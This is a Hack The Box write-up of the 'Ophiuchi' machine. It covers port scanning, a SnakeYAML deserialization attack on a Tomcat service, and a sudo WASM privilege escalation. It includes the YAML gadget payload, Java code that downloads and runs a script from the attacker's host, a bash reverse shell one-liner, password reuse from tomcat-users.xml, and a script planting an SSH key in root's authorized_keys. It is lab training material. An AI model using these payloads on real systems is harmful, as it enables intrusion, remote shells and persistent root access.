



# Ophiuchi

## Summary

This machine is a medium rated box on HTB. After finding a webserver on port 8080 a YAML deserilization vulnerbility is located. Exploiting this vulnerability allows for code execution on the host. After getting a shell the a password for the admin user is retrieved from the ```tomcat-users.xml``` file. The admin user can run a custom WASM program written in Go as sudo on the host. We can abuse relative paths in the custom program to gain code execution as the root user. 

## Enumeration

To start Nmap is used to find open ports on the host. In total there are 2 open ports 22 and 8080. Upon further investigation 22 is found to host SSH and 8080 a Tomcat web server. 

### All ports
```bash
sudo nmap -p- 10.10.10.227 -oA nmap/all-ports
[sudo] password for tc:
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-10 13:33 EDT
Nmap scan report for 10.10.10.227
Host is up (0.022s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 20.86 seconds
```

### More info
```bash
sudo nmap -p 22,8080 -sC -sV 10.10.10.227 -oA nmap/info
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-10 13:35 EDT
Nmap scan report for 10.10.10.227
Host is up (0.036s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 6d:fc:68:e2:da:5e:80:df:bc:d0:45:f5:29:db:04:ee (RSA)
|   256 7a:c9:83:7e:13:cb:c3:f9:59:1e:53:21:ab:19:76:ab (ECDSA)
|_  256 17:6b:c3:a8:fc:5d:36:08:a1:40:89:d2:f4:0a:c6:46 (ED25519)
8080/tcp open  http    Apache Tomcat 9.0.38
|_http-title: Parse YAML
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.31 seconds
```

## Port 8080

Investigating 8080 we find a service that claims to parse YAML input.



After searching around about YAML [this](https://swapneildash.medium.com/snakeyaml-deserilization-exploited-b4a2c5ac0858) article was located explaining how to gain code execution through YAML deserilization. Using their provided POC we can confirm RCE. 

```YAML
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://attacker-ip/"]
  ]]
]
```

Using the above POC input with the correct IP we find the server connects back with an HTTP request.



In order to help get code execution I found and followed along with [this](https://github.com/artsploit/yaml-payload) writeup. Following along with the article we I confirm everything is working with a ping command. The file to execute the ping command is below. After compiling this file we have to put it into the web server we are hosting and use the deserillization attack to run it. 

```java
public class AwesomeScriptEngineFactory implements ScriptEngineFactory {

    public AwesomeScriptEngineFactory() {
        try {
            Runtime.getRuntime().exec("ping -c 1 10.10.14.25");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
    @Override
    public String getEngineName() {
        return null;
    }

    @Override
    public String getEngineVersion() {
        return null;
    }

    @Override
    public List<String> getExtensions() {
        return null;
    }

    @Override
    public List<String> getMimeTypes() {
        return null;
    }

    @Override
    public List<String> getNames() {
        return null;
    }

    @Override
    public String getLanguageName() {
        return null;
    }

    @Override
    public String getLanguageVersion() {
        return null;
    }

    @Override
    public Object getParameter(String key) {
        return null;
    }

    @Override
    public String getMethodCallSyntax(String obj, String m, String... args) {
        return null;
    }

    @Override
    public String getOutputStatement(String toDisplay) {
        return null;
    }

    @Override
    public String getProgram(String... statements) {
        return null;
    }

    @Override
    public ScriptEngine getScriptEngine() {
        return null;
    }
}
```
The code above causes the machine to ping our host.



In order to get the machine to run the exploit put the following YAML in the box on the site. Make sure to change the IP to the correct IP.

```YAML
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://artsploit.com/yaml-payload.jar"]
  ]]
]
```

In order to get a shell on the server the best way seemed to be downloading a reverse shell script and running it. The code to download and run the reverse shell is below. Also below is the bash script that sent the reverse shell.

### Java code
```java
package artsploit;

import javax.script.ScriptEngine;
import javax.script.ScriptEngineFactory;
import java.io.IOException;
import java.util.List;

public class AwesomeScriptEngineFactory implements ScriptEngineFactory {

    public AwesomeScriptEngineFactory() {
        try {
            Process p = new ProcessBuilder("curl", "http://10.10.14.25/shell.sh", "-o", "/tmp/shell.sh").start();
            Process g = new ProcessBuilder("bash", "/tmp/shell.sh").start();
        } catch (IOException e) {
            e.printStackTrace();
        }
    }

    @Override
    public String getEngineName() {
        return null;
    }

    @Override
    public String getEngineVersion() {
        return null;
    }

    @Override
    public List<String> getExtensions() {
        return null;
    }

    @Override
    public List<String> getMimeTypes() {
        return null;
    }

    @Override
    public List<String> getNames() {
        return null;
    }

    @Override
    public String getLanguageName() {
        return null;
    }

    @Override
    public String getLanguageVersion() {
        return null;
    }

    @Override
    public Object getParameter(String key) {
        return null;
    }

    @Override
    public String getMethodCallSyntax(String obj, String m, String... args) {
        return null;
    }

    @Override
    public String getOutputStatement(String toDisplay) {
        return null;
    }

    @Override
    public String getProgram(String... statements) {
        return null;
    }

    @Override
    public ScriptEngine getScriptEngine() {
        return null;
    }
}
```

### Shell script
```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.25/6868 0>&1
```

The commands to compile the Java code is below. After compiling the code we just need to move the compiled jar into the web server's root directory.

```bash
vi src/artsploit/AwesomeScriptEngineFactory.java
tc@ubuntu:~/htb/Ophiuchi/yaml-payload$ javac src/artsploit/AwesomeScriptEngineFactory.java
tc@ubuntu:~/htb/Ophiuchi/yaml-payload$ jar -cvf yaml-payload.jar -C src/ .
added manifest
adding: artsploit/(in = 0) (out= 0)(stored 0%)
adding: artsploit/AwesomeScriptEngineFactory.class(in = 1662) (out= 691)(deflated 58%)
adding: artsploit/AwesomeScriptEngineFactory.java(in = 1559) (out= 407)(deflated 73%)
ignoring entry META-INF/
adding: META-INF/services/(in = 0) (out= 0)(stored 0%)
adding: META-INF/services/javax.script.ScriptEngineFactory(in = 36) (out= 38)(deflated -5%)
```

## Getting User

At this point we have a shell on the box. Looking around I found the ```tomcat-users.xml``` file. In this file we can find the username and password to login to the Tomcat instance. Since the username of Tomcat matched that of the user on the box I tried to login to the admin user with the same password. This worked giving access to the admin user on the machine. 

## Getting root

Using the ```sudo -l``` command as admin we see that we can run go with a certain file. 

```bash
sudo -l
Matching Defaults entries for admin on ophiuchi:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin            

User admin may run the following commands on ophiuchi:
    (ALL) NOPASSWD: /usr/bin/go run /opt/wasm-functions/index.go
```

Here is the go file that we can run as root.

```go
package main

import (
        "fmt"
        wasm "github.com/wasmerio/wasmer-go/wasmer"
        "os/exec"
        "log"
)


func main() {
        bytes, _ := wasm.ReadBytes("main.wasm")

        instance, _ := wasm.NewInstance(bytes)
        defer instance.Close()
			init := instance.Exports["info"]
        result,_ := init()
        f := result.String()
        if (f != "1") {
                fmt.Println("Not ready to deploy")
        } else {
                fmt.Println("Ready to deploy")
                out, err := exec.Command("/bin/sh", "deploy.sh").Output()                                                        
                if err != nil {
                        log.Fatal(err)
                }
                fmt.Println(string(out))
        }
}
```

Going over the file it seems to pull in a file called ```main.wasm```. Then it seems to run the file with the function of ```info``` and if the return value is a 1 it will run a shell script ```deploy.sh```. Both of these files are relative links and not full paths. This means we can run the file in a directory with our files. On github there is a project called [wabt](https://github.com/WebAssembly/wabt). This project has a tool that will decompile wasm files. Downloading the main.wasm that is on the server we can decompile it. The decompiled output from ```wasm2wat``` is below.

```wat
(module
  (type (;0;) (func (result i32)))
  # This is the important part. Function info is defined
  # and the value of 0 is returned. 
  (func $info (type 0) (result i32)
    i32.const 0)
  (table (;0;) 1 1 funcref)
  (memory (;0;) 16)
  (global (;0;) (mut i32) (i32.const 1048576))
  (global (;1;) i32 (i32.const 1048576))
  (global (;2;) i32 (i32.const 1048576))
  (export "memory" (memory 0))
  (export "info" (func $info))
  (export "__data_end" (global 1))
  (export "__heap_base" (global 2)))
```

Looking over the output (comments added) we can see where the info function is defined. We also can see that this function returns 0 which is why when using this file on the server we get the ```Not ready to deploy``` message. Changing the code above to return a 1 instead is easily done. After the change we can use a tool called ```wat2wasm``` to compile back into wasm.

```wat
(module
  (type (;0;) (func (result i32)))
  (func $info (type 0) (result i32)
    i32.const 1)
    # Changed the above line
  (table (;0;) 1 1 funcref)
  (memory (;1;) 16)
  (global (;1;) (mut i32) (i32.const 1048576))
  (global (;1;) i32 (i32.const 1048576))
  (global (;2;) i32 (i32.const 1048576))
  (export "memory" (memory 0))
  (export "info" (func $info))
  (export "__data_end" (global 1))
  (export "__heap_base" (global 2)))
```

At this point we make a ```delpoy.sh``` script that will give us root access. The easiest way to do this is to add a SSH public key to root's authorized_keys file. The script also touches a file so we can see that it did run and work.

```bash
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDO0WvGYJpNPqs452F1AuWbAYxh3SZv51UN7VE0XDRyH3L0PmhV9dJ7TcHhKTPr4f/3Hi/LRcBgUhcGgoE2L3ZkoxUkAKkbF1F1Dp2GYM/LGP1vGNEFQif/d99JHFfzbcwPaTzAD+RKzvpJ+Qh5EITzx7SGbMXUnBKUM+CGiGJei6f0HYdn4emjGSnfRaA6CvZr8597I06xleS+QnKO4e29CPxKN07tgLmOH5Ym5kYFRBlMqSo8o/PHWiyoy5ib3oQrXul8L0l3tciJIymG6swUEtaDEMu6TNa3YFw7Lq3T4z6fF2IXDWl1adIvh3xCly8aIfpYY5YIAMULO2MxXsHb tc@ubuntu" >> /root/.ssh/authorized_keys
touch done
```

After uploading both the files to the server we can run the index.go command. All we have to do is make sure we do it in the folder with our files.

```bash
sudo /usr/bin/go run /opt/wasm-functions/index.go
# Make sure that we are in a folder with our main.wasm and deploy.sh
```

At this point we can login as root with SSH and the private key.

```bash
ssh -i key root@10.10.10.227
```